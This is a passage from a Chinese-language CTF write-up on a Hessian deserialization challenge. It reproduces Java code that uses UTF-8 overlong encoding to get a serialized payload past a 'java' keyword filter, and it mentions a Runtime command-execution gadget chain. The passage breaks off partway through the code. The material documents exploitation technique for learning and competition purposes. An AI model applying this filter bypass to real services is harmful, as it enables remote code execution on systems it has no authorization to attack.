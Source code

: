 ## ezHessian

看题目就知道考的是Hessian反序列化，也是刚接触，立马查资料学习了一下。给的依赖只有hessian，版本为低版本4.0.38，可以通过原生jdk构造利用链实现Runtime执行命令，但是源码中限制构造的payload base64解码后不能出现“java”，这是个难点，后面给了提示UTF-8 Overlong Encoding才知道怎么绕的，重点学习了这篇文章：https://exp10it.io/2024/02/hessian-utf-8-overlong-encoding/

盗用了一下其中的UTF-8 Overlong Encoding的代码：

```java
package org.example;

import com.caucho.hessian.io.Hessian2Output;

import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Field;

public class Hessian2OutputWithOverlongEncoding extends Hessian2Output {
    public Hessian2OutputWithOverlongEncoding(OutputStream os) {
        super(os);
    }

    @Override
    public void printString(String v, int strOffset, int length) throws IOException {
        int offset = (int) getSuperFieldValue("_offset");
        byte[] buffer = (byte[]) getSuperFieldValue("_buffer");

        for (int i = 0; i < length; i++) {
            if (SIZE <= offset + 16) {
                setSuperFieldValue("_offset", offset);
                flushBuffer();
                offset = (int) getSuperFieldValue("_offset");
            }

            char ch = v.charAt(i + strOffset);

            // 2 bytes UTF-8
            buffer[offset++] = (byte) (0xc0 + (convert(ch)[0] & 0x1f));
            buffer[offset++] = (byte) (0x80 + (convert(ch)[1] & 0x3f));

//            if (ch < 0x80)
//                buffer[offset++] = (byte) (ch);
//            else if (ch < 0x800) {
//                buffer[offset++] = (byte) (0xc0 + ((ch >> 6) & 0x1f));
//                buffer[offset++] = (byte) (0x80 + (ch & 0x3f));
//            }
//            else {
//                buffer[offset++] = (byte) (0xe0 + ((ch >> 12) & 0xf));
//                buffer[offset++] = (byte) (0x80 + ((ch >> 6) & 0x3f));
//                buffer[offset++] = (byte) (0x80 + (ch & 0x3f));
//            }
        }

        setSuperFieldValue("_offset", offset);
    }

    @Override
    public void printString(char[] v, int strOffset, int length) throws IOException {
        int offset = (int) getSuperFieldValue("_offset");
        byte[] buffer = (byte[]) getSuperFieldValue("_buffer");

        for (int i = 0; i < length; i++) {
            if (SIZE <= offset + 16) {
                setSuperFieldValue("_offset", offset);
```
